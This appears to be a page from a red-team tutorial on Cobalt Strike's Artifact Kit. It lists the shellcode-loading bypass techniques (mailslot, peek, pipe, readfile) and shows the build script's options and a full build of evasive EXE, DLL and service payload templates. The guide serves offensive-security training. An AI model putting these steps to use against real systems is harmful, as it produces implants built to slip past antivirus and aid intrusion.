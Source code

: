 The code for the entry point of each artifact format (i.e. EXE and DLL) can be found in src-main.  These include dllmain.c for the DLL artifacts, main.c for the EXE artifacts, and svcmain.c for the Service EXE artifacts.  These just call a function called start, so you should not need to modify these files in most cases.  The implementation of this function can be found in each bypass file.

These can be found in src-common and are named bypass-<technique>.c.  The included ones are:

    mailslot - reads the shellcode over a mailslot.
    peek - uses a combination of Sleep, PeekMessage and GetTickCount.
    pipe - reads the shellcode over a named pipe.
    readfile - artifact reads itself from disk and seeks to find the embedded shellcode.


Before making any modifications to the kit, let's just build one of these variants as it is.  The kit includes a build script which uses mingw to compile the artifacts.  Running it without any arguments will show the usage.

ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact> ./build.sh
[Artifact kit] [-] Usage:
[Artifact kit] [-] ./build <techniques> <allocator> <stage size> <rdll size> <include resource file> <stack spoof> <syscalls> <output directory>
[Artifact kit] [-]  - Techniques       - a space separated list
[Artifact kit] [-]  - Allocator        - set how to allocate memory for the reflective loader.
[Artifact kit] [-]                       Valid values [HeapAlloc VirtualAlloc MapViewOfFile]
[Artifact kit] [-]  - Stage Size       - integer used to set the space needed for the beacon stage.
[Artifact kit] [-]                       For a 0K   RDLL stage size should be 310272 or larger
[Artifact kit] [-]                       For a 5K   RDLL stage size should be 310272 or larger
[Artifact kit] [-]                       For a 100K RDLL stage size should be 444928 or larger
[Artifact kit] [-]  - RDLL Size        - integer used to specify the RDLL size. Valid values [0, 5, 100]
[Artifact kit] [-]  - Resource File    - true or false to include the resource file
[Artifact kit] [-]  - Stack Spoof      - true or false to use the stack spoofing technique
[Artifact kit] [-]  - Syscalls         - set the system call method
[Artifact kit] [-]                       Valid values [none embedded indirect indirect_randomized]
[Artifact kit] [-]  - Output Directory - Destination directory to save the output
[Artifact kit] [-] Example:
[Artifact kit] [-]   ./build.sh "peek pipe readfile" HeapAlloc 310272 5 true true indirect /tmp/dist/artifact


It looks a bit scary at first, but each option is explained in the help.  You can also review the README.md file inside the Artifact Kit directory for more information.  Let's build a new set of artifact templates using the bypass-pipe technique.

ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact> ./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts
[Artifact kit] [+] You have a x86_64 mingw--I will recompile the artifacts
[Artifact kit] [*] Using allocator: VirtualAlloc
[Artifact kit] [*] Using STAGE size: 310272
[Artifact kit] [*] Using RDLL size: 5K
[Artifact kit] [*] Using system call method: none
[Artifact kit] [+] Artifact Kit: Building artifacts for technique: pipe
[Artifact kit] [*] Recompile artifact32.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32svc.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32big.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32big.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32svcbig.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64.x64.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64svc.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64big.x64.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64big.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64svcbig.exe with src-common/bypass-pipe.c
[Artifact kit] [+] The artifacts for the bypass technique 'pipe' are saved in '/mnt/c/Tools/cobaltstrike/artifacts/pipe'
